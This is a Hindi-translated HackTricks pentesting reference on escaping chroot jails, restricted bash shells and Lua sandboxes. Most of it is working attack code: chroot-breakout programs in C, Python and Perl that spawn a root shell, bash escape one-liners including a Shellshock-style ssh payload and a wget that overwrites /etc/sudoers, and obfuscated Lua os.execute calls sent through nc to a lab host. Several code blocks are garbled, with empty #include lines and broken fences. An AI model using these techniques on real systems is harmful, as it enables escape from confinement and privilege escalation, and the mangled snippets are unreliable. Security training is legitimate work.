 # Escaping from Jails

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## **GTFOBins**

**खोजें** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **यदि आप "Shell" गुण के साथ कोई बाइनरी निष्पादित कर सकते हैं**

## Chroot Escapes

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations) से: Chroot तंत्र **जानबूझकर छेड़छाड़** से बचाने के लिए **नहीं है** **विशेषाधिकार प्राप्त** (**root**) **उपयोगकर्ताओं** के खिलाफ। अधिकांश सिस्टमों पर, chroot संदर्भ ठीक से स्टैक नहीं होते हैं और पर्याप्त विशेषाधिकारों वाले chrooted प्रोग्राम **दूसरा chroot करके बाहर निकल सकते हैं**।\
आमतौर पर इसका मतलब है कि बचने के लिए आपको chroot के अंदर root होना चाहिए।

{% hint style="success" %}
**टूल** [**chw00t**](https://github.com/earthquake/chw00t) को निम्नलिखित परिदृश्यों का दुरुपयोग करने और `chroot` से बचने के लिए बनाया गया था।
{% endhint %}

### Root + CWD

{% hint style="warning" %}
यदि आप chroot के अंदर **root** हैं तो आप **बच सकते हैं** एक **और chroot बनाकर**। यह इसलिए क्योंकि 2 chroots सह-अस्तित्व में नहीं रह सकते (Linux में), इसलिए यदि आप एक फोल्डर बनाते हैं और फिर उस नए फोल्डर पर एक **नया chroot बनाते हैं** जिसमें आप बाहर होते हैं, तो आप अब नए chroot के बाहर होंगे और इसलिए आप FS में होंगे।

यह इसलिए होता है क्योंकि आमतौर पर chroot आपकी कार्य निर्देशिका को निर्दिष्ट वाले में नहीं ले जाता है, इसलिए आप एक chroot बना सकते हैं लेकिन उससे बाहर हो सकते हैं।
{% endhint %}

आमतौर पर आपको chroot जेल के अंदर `chroot` बाइनरी नहीं मिलेगी, लेकिन आप **कंपाइल, अपलोड और निष्पादित** एक बाइनरी कर सकते हैं:

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>पायथन</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````



\`\`\`perl #!/usr/bin/perl mkdir "chroot-dir"; chroot "chroot-dir"; foreach my $i (0..1000) { chdir ".." } chroot "."; system("/bin/bash"); \`\`\`

</details>

### Root + Saved fd

{% hint style="warning" %}
यह पिछले मामले के समान है, लेकिन इस मामले में **हमलावर वर्तमान डायरेक्टरी के लिए एक फाइल डिस्क्रिप्टर स्टोर करता है** और फिर **नए फोल्डर में chroot बनाता है**। अंत में, चूंकि उसके पास chroot के **बाहर** उस **FD** तक **पहुँच** है, वह उसे एक्सेस करता है और **बच निकलता है**।
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD को Unix Domain Sockets के माध्यम से पास किया जा सकता है, इसलिए:

* एक चाइल्ड प्रोसेस (fork) बनाएं
* UDS बनाएं ताकि पेरेंट और चाइल्ड बात कर सकें
* चाइल्ड प्रोसेस में एक अलग फोल्डर में chroot चलाएं
* पेरेंट प्रोसेस में, नए चाइल्ड प्रोसेस chroot के बाहर के फोल्डर का एक FD बनाएं
* उस FD को UDS का उपयोग करके चाइल्ड प्रोसेस को पास करें
* चाइल्ड प्रोसेस उस FD पर chdir करें, और चूंकि वह अपने chroot के बाहर है, वह जेल से बच निकलेगा

</div>

### &#x20;Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* chroot के अंदर एक डायरेक्टरी में रूट डिवाइस (/) को माउंट करना
* उस डायरेक्टरी में chroot करना

यह Linux में संभव है

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* chroot के अंदर एक डायरेक्टरी में procfs को माउंट करना (अगर वह पहले से नहीं है)
* एक pid की तलाश करना जिसकी अलग root/cwd प्रविष्टि हो, जैसे: /proc/1/root
* उस प्रविष्टि में chroot करना

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* एक Fork (चाइल्ड प्रोसेस) बनाएं और FS में गहरे एक अलग फोल्डर में chroot करें और उस पर CD करें
* पेरेंट प्रोसेस से, जहां चाइल्ड प्रोसेस है उस फोल्डर को चाइल्ड्रेन के chroot से पहले के फोल्डर में मूव करें
* यह चाइल्ड प्रोसेस खुद को chroot के बाहर पाएगा

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* पहले यूजर्स अपने प्रोसेस को खुद के प्रोसेस से डिबग कर सकते थे... लेकिन अब यह डिफ़ॉल्ट रूप से संभव नहीं है
* फिर भी, अगर यह संभव है, तो आप किसी प्रोसेस में ptrace कर सकते हैं और उसके अंदर एक shellcode निष्पादित कर सकते हैं ([इस उदाहरण को देखें](linux-capabilities.md#cap_sys_ptrace)).

</div>

## Bash Jails

### Enumeration

जेल के बारे में जानकारी प्राप्त करें:
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### PATH संशोधित करें

जांचें कि क्या आप PATH env वेरिएबल को संशोधित कर सकते हैं

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### विम का उपयोग करना

```bash
:set shell=/bin/sh
:shell
```

#### स्क्रिप्ट बनाएं

जांचें कि क्या आप _/bin/bash_ सामग्री के साथ एक निष्पादन योग्य फ़ाइल बना सकते हैं

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### SSH से bash प्राप्त करें

यदि आप ssh के माध्यम से पहुँच रहे हैं, तो आप इस चाल का उपयोग करके एक bash shell निष्पादित कर सकते हैं:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### घोषणा

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

आप उदाहरण के लिए sudoers फ़ाइल को ओवरराइट कर सकते हैं

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### अन्य तरकीबें

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**इस पृष्ठ को भी देखना दिलचस्प हो सकता है:**

### Python Jails

Python jails से बचने की तरकीबें निम्नलिखित पृष्ठ पर दी गई हैं:

### Lua Jails

इस पृष्ठ पर आप Lua में उपलब्ध ग्लोबल फंक्शन्स की जानकारी पा सकते हैं: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval के साथ कमांड निष्पादन:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

कुछ तरकीबें **बिना डॉट्स का उपयोग किए लाइब्रेरी के फंक्शन्स को कॉल करने के लिए**:

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

पुस्तकालय के कार्यों की सूची बनाएं:

```bash
for k,v in pairs(string) do print(k,v) end
```

ध्यान दें कि जब भी आप पिछले वन लाइनर को **अलग-अलग lua वातावरण में निष्पादित करते हैं, तो फंक्शन्स का क्रम बदल जाता है**। इसलिए यदि आपको कोई विशेष फंक्शन निष्पादित करना हो, तो आप विभिन्न lua वातावरणों को लोड करके और लाइब्रेरी के पहले फंक्शन को कॉल करके एक ब्रूट फोर्स हमला कर सकते हैं:

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**इंटरएक्टिव lua शेल प्राप्त करें**: यदि आप एक सीमित lua शेल के अंदर हैं, तो आप नया lua शेल (और आशा है कि असीमित) निम्नलिखित कॉल करके प्राप्त कर सकते हैं:

```bash
debug.debug()
```

### संदर्भ

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (स्लाइड्स: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>
